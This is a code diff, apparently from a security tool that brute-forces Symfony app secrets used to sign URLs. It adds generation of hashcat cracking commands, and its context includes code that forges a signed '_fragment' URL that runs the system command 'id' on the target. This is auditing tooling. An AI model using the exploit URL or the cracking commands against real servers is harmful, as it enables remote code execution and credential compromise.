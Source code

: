 ```diff
         poc_string = "_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull"
         full_url = f"{host}{poc_string}"
         poc_hash = self.symfonyHMAC(full_url, secret, hash_algorithm)
         poc_url = f"{full_url}&_hash={poc_hash.decode()}"
         return poc_url
 
     def symfonyVerify(self, value, secret):
+        url, url_hash, hash_algorithm = self.symfonyLoad(value)
+
+        generated_hash = self.symfonyHMAC(url, secret, hash_algorithm)
+        if generated_hash == url_hash.encode():
+            return {
+                "hash algorithm": hash_algorithm.__name__.split("openssl_")[1],
+                "PoC URL (executes 'id')": self.symfonyPoC(secret, url, hash_algorithm),
+            }
+        return False
+
+    def symfonyLoad(self, value):
         url, url_hash = value.split("&_hash=")
         for hash_algorithm_str in self.search_dict(self.hash_sizes, len(base64.b64decode(url_hash))):
             hash_algorithm = self.hash_algs[hash_algorithm_str]
-            generated_hash = self.symfonyHMAC(url, secret, hash_algorithm)
-            if generated_hash == url_hash.encode():
-                return {
-                    "hash algorithm": hash_algorithm.__name__.split("openssl_")[1],
-                    "PoC URL (executes 'id')": self.symfonyPoC(secret, url, hash_algorithm),
+        return url, url_hash, hash_algorithm
+
+    def get_hashcat_commands(self, signed_url):
+        url, url_hash, hash_algorithm = self.symfonyLoad(signed_url)
+        hash_algorithm_str = hash_algorithm.__name__.split("_")[1]
+        hashcat_mode = None
+
+        if hash_algorithm_str == "sha1":
+            hashcat_mode = "150"
+
+        elif hash_algorithm_str == "sha256":
+            hashcat_mode = "1450"
+
+        if hashcat_mode:
+            return [
+                {
+                    "command": f"hashcat -m {hashcat_mode} -a 0 {base64.b64decode(url_hash).hex()}:{url.encode().hex()} --hex-salt  <dictionary_file>",
+                    "description": f"Symfony Signed URL Algorithm: [{hash_algorithm_str }]",
                 }
-        return False
+            ]
 
     def check_secret(self, signed_url):
         if not self.identify(signed_url):
             return None
-        for l in self.load_resource("symfony_appsecret.txt"):
+        for l in self.load_resources(["symfony_appsecret.txt"]):
             password = l.rstrip()
             r = self.symfonyVerify(value=signed_url, secret=password)
             if r:
                 return {"secret": password, "details": r}
         return None
```
